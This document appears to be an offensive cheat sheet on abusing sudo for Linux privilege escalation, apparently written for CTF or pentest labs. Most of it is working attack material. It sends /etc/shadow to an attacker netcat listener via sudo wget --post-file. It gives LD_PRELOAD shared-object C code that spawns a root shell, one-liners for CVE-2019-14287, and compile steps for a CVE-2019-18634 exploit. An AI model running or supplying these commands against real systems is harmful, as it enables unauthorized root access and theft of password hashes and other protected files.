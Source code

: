 ```yaml
---
category: Uncategorized
tags: []
---
```

Abusing Sudo

Sudo Shell Escaping

Checking Sudo Rights for Current User

~~~bash
sudo -l
~~~

Lists all applications that can be run as root or another user that potentially has higher privileges (with or without a password).

GTFOBins

GTFOBins Github.io

Escaping underprivileged shell cheatsheet

Intended Functionality

Using a binary that does not have the ability to gain a privileged shell, but does have sudo capability when viewing in “sudo -l”.

ex. You have sudo capability for wget in the "sudo -l" output:

Attacker Machine:

~~~bash
nc -vnlp 4444
~~~

Victim Machine:

~~~bash
sudo wget --post-file=/etc/shadow <ATTACKER-IP> 4444
~~~

This example will dump the shadow file on to the attacker's netcat session and will be readable by the attacker machine and can then be used to decrypt the shadow file. Please note that this can be used to read other files that are not readily accessible by the underprivileged user.

ex. You know that there is a file named flag.txt located in /root. You can --post-file=/root/flag.txt instead of shadow to obtain the root flag.
sudo -l

LD_PRELOAD

LD_PRELOAD may show up when performing a “sudo -l” command. This will allow us to create our own custom SO to escape the underprivileged account and run as root.

C Code for the SO (shell.c):

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

After saving this file on the victim machine, compile using GCC:

~~~bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

After compiling the SO file from the C Code, you will need to execute LD_PRELOAD with the SO file (with full path to SO file) as sudo against a service that you have sudo rights to:

~~~bash
sudo LD_PRELOAD=/home/user/shell.so apache2
~~~

SUDO EXPLOIT - CVE-2019-14287

~~~bash
#Taking over root account
sudo -u#-1 /bin/bash
# OR
sudo -u#4294967295 /bin/bash

#Taking over another user account
sudo -u#+1000 /bin/bash
~~~

SUDO BUFFER OVERFLOW - CVE-2019-18634

Begin by checking out the sudoers file at "/etc/sudoers" and look for an uncommented section that contains the word “pwfeedback”

THIS IS ONLY VULNERABLE FOR VERSIONS 1.8.26 OR EARLIER WITH "pwfeedback" ENABLED

Determining version of sudo and if pwfeedback is enabled: 

~~~bash
#Determining the version of sudo
sudo -V
#Checking if we can read the sudoers file for the pwfeedback option
cat /etc/sudoers
#If unable to access the sudoers file, run “sudo su root” and see if you get asterisks when typing in a password
sudo su root
~~~

Exploit Code:

Compile the exploit.c file by performing the following command:

~~~bash
gcc exploit.c -o exploit
~~~

https://github.com/saleemrashid/sudo-cve-2019-18634
